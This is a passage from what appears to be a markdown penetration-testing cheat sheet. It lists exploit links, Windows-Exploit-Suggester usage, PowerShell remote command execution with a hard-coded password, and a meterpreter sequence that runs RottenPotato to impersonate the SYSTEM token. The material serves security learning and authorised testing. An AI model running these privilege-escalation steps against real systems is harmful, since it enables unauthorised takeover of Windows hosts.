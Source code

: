 * [www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)



### Windows


#### Windows-Exploit-Suggester

* [github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ sudo python -m pip install xlrd
$ python -u windows-exploit-suggester.py -d 2020-09-02-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee wes.log
```


#### PowerShell

Run as another user:

```
PS > $user = '<HOSTNAME>\<USERNAME>'
PS > $pass = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($user, $pass)

PS > Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred
Or
PS > $s = New-PSSession -ComputerName <HOSTNAME> -Credential $cred
PS > Invoke-Command -ScriptBlock { whoami } -Session $s
```


#### Potatoes

foxglovesec/RottenPotato **[1]**, **[2]**:

```
meterpreter > upload [3]
meterpreter > load incognito
meterpreter > execute -cH -f rottenpotato.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```

1. [github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)
2. [foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
3. [github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe](https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe)


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)